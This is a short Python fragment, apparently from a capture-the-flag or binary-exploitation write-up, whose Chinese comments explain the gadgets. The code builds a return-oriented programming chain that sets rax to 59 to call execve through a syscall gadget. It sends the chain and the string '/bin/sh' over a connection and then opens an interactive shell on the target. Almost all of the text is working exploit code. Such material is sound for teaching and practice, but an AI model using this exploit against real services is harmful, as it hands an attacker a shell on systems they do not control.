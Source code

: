 ```python
payload+=p64(rbx_r13_r15j)+p64(59)+p64(xchg)+p64(rbx_r13_r15j)+p64(0)+p64(gadgets) #控制rax为59，调用execve
payload+=p64(0)+p64(rsp_addr)+p64(0xdeadbeef)+p64(0xdeadbeef)+p64(syscall)

#rbx ROP:
payload+=p64(xor)+p64(jrsp) #add rbx,8;jmp rbx类似ret，用来跳转到清空rdx的gadget，然后再跳回上面rsp的位置继续执行
link.send(payload)

sleep(1)
link.send(b'/bin/sh\x00')

link.interactive()
```

